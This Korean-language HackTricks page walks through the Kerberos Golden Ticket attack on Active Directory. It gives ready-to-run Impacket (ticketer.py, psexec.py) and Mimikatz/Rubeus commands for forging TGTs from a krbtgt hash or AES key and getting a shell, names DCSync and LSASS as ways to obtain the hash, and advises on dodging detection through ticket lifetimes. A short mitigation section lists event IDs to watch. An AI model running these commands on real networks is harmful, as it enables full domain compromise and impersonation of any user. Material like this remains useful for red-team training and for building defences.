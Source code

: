 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

**Golden Ticket** 공격은 **Active Directory (AD) krbtgt 계정의 NTLM 해시를 사용하여 임의의 사용자를 가장한 합법적인 티켓 부여 티켓(TGT)을 생성하는 것**으로 구성됩니다. 이 기술은 **가장한 사용자로서 도메인 내의 모든 서비스나 머신에 접근할 수 있게 해주기 때문에** 특히 유리합니다. **krbtgt 계정의 자격 증명은 자동으로 업데이트되지 않는다는 점을 기억하는 것이 중요합니다.**

krbtgt 계정의 **NTLM 해시를 획득하기 위해** 다양한 방법을 사용할 수 있습니다. 이는 도메인 내의 모든 도메인 컨트롤러(DC)에 위치한 **로컬 보안 권한 하위 시스템 서비스(LSASS) 프로세스** 또는 **NT 디렉터리 서비스(NTDS.dit) 파일**에서 추출할 수 있습니다. 또한, **DCsync 공격을 실행하는 것**도 이 NTLM 해시를 얻기 위한 또 다른 전략으로, Mimikatz의 **lsadump::dcsync 모듈**이나 Impacket의 **secretsdump.py 스크립트**와 같은 도구를 사용하여 수행할 수 있습니다. 이러한 작업을 수행하기 위해서는 **도메인 관리자 권한 또는 유사한 수준의 접근 권한이 일반적으로 필요하다는 점을 강조하는 것이 중요합니다.**

NTLM 해시는 이 목적을 위한 유효한 방법으로 사용되지만, 운영 보안상의 이유로 **고급 암호화 표준(AES) Kerberos 키(AES128 및 AES256)를 사용하여 티켓을 위조하는 것이 강력히 권장됩니다.**


{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows에서" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**한 번** **golden Ticket**이 주입되면, 공유 파일 **(C$)**에 접근할 수 있고, 서비스와 WMI를 실행할 수 있으므로 **psexec** 또는 **wmiexec**를 사용하여 셸을 얻을 수 있습니다 (winrm을 통해 셸을 얻을 수 없는 것 같습니다).

### 일반적인 탐지 우회

**golden ticket**을 탐지하는 가장 일반적인 방법은 **네트워크에서 Kerberos 트래픽을 검사하는 것**입니다. 기본적으로, Mimikatz는 TGT를 **10년 동안 서명**하므로, 이후 TGS 요청에서 비정상적으로 보일 것입니다.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

`/startoffset`, `/endin` 및 `/renewmax` 매개변수를 사용하여 시작 오프셋, 지속 시간 및 최대 갱신(모두 분 단위)을 제어합니다.
```
Get-DomainPolicy | select -expand KerberosPolicy
```
불행히도, TGT의 수명은 4769에 기록되지 않으므로 Windows 이벤트 로그에서 이 정보를 찾을 수 없습니다. 그러나 **이전 4768 없이 4769를 보는 것**은 상관관계가 있습니다. **TGT 없이 TGS를 요청하는 것은 불가능**하며, TGT가 발급된 기록이 없다면 오프라인에서 위조되었음을 추론할 수 있습니다.

이 **탐지를 우회하기 위해** 다이아몬드 티켓을 확인하십시오:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### 완화

* 4624: 계정 로그인
* 4672: 관리자 로그인
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

수비자가 할 수 있는 다른 작은 요령은 **민감한 사용자에 대한 4769에 경고**하는 것입니다. 예를 들어 기본 도메인 관리자 계정과 같은 경우입니다.

## 참조
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 요령을 공유하세요.**

</details>
{% endhint %}
